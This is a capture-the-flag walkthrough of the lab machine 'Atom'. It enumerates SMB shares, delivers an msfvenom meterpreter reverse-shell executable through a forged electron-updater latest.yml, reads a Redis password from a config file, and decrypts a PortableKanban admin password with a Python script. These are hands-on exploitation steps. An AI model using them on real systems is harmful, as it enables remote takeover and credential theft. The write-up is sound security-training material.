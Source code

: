![Atom](banner.png)

```
PORT   STATE SERVICE VERSION
PORT      STATE         SERVICE           VERSION
80/tcp    open          http              Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
135/tcp   open          msrpc             Microsoft Windows RPC
443/tcp   open          ssl/http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
445/tcp   open          microsoft-ds      Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
```
## User

Port 445 is open which is samba, so let's have a look at it.

```
smbclient -L 10.10.10.237
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Software_Updates Disk      
SMB1 disabled -- no workgroup available
```

We can see a share called `Software_Updates` so we open it:

```
smbclient //atom.htb/Software_Updates
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jun 10 12:06:37 2021
  ..                                  D        0  Thu Jun 10 12:06:37 2021
  client1                             D        0  Thu Jun 10 12:06:37 2021
  client2                             D        0  Thu Jun 10 12:06:37 2021
  client3                             D        0  Thu Jun 10 12:06:37 2021
  UAT_Testing_Procedures.pdf          A    35202  Fri Apr  9 07:18:08 2021
```

A maybe interesting pdf?:
```
smb: \> get UAT_Testing_Procedures.pdf
```

UAT_Testing_Procedures.pdf:
```
What is Heed ?


Note taking application built with electron-builder which helps users in taking important
notes.

[...]

What about QA ?


We follow the below process before releasing our products.

1. Build and install the application to make sure it works as we expect it to be.

2. Make sure that the update server running is in a private hardened instance. To
initiate the QA process, just place the updates in one of the "client" folders, and 
the appropriate QA team will test it to ensure it finds an update and installs it
correctly.

3. Follow the checklist to see if all given features are working as expected by the
developer.
```

Since they mention the electron-builder we searched for a vulnerability and quickly found [this](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html).

So we should be able to provide a malicious `.exe` with a manipulated `latest.yml` file through the samba-share client folders.

First we create our executable like this:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f exe > meterpreter.exe
```
Now we only need a corresponding `latest.yml`.

The version can be anything higher than "1.0.0", the path is the file name with an `'` added. And we can calculate the sha512 like this:

```bash
shasum -a 512 h\'eedv1-Setup-1.0.1.exe | cut -d " " -f1 | xxd -r -p | base64
```

So this is the final `latest.yml` that we came up with:

```yml
version: 1.0.1
path: h'eedv1-Setup-1.0.1.exe
sha512: Ow//J8c9ibjF54ouu+ajnkMO0XfqY0m+uMWhaUdEH6mlBP6iizaw0J0KnfMMeeecSawMhGH4kutK8gdQpLyGpg==
```

After setting up a listener in msfconsole using the module `exploit/multi/handler` you can copy your files `latest.yml` and `h'eedv1-Setup-1.0.1.exe` to the smb-share and catch your meterpreter.


## Root


Enumerating the system we found the password `kidvscat_yes_kidvscat` for the `redis`-server:
```
meterpreter > cat C:\Program Files\redis\redis.windows-service.conf
# Redis configuration file example
requirepass kidvscat_yes_kidvscat
```
So let's try to connect to that server.
(Get the redis-cli via `sudo apt-get install redis-cli`)

Now connect to the server with the password we found earlier:
```bash
redis-cli -h atom.htb -a kidvscat_yes_kidvscat
```

With `keys *` and `get \[...\]` you can dumb all the keys:

![keys.png](keys.png)

This gives us the encrypted password of the admin: `Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi`.

As we found a `PortableKanban` in `C:\Users\jason\Downloads\` we can use [this exploit](https://www.exploit-db.com/exploits/49409):
```python
from des import *
import base64


hash = "Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi"
hash = base64.b64decode(hash.encode('utf-8'))
key = DesKey(b"7ly6UznJ")
print(key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
```
Executing the python script you'll get the credentials `Administrator:kidvscat_admin_@123`:
```bash
└─$ python3 test.py           
kidvscat_admin_@123
```

With these credentials you can login as Administrator via smb with `xdg-open smb://atom.htb/` or like above to grab the root flag.
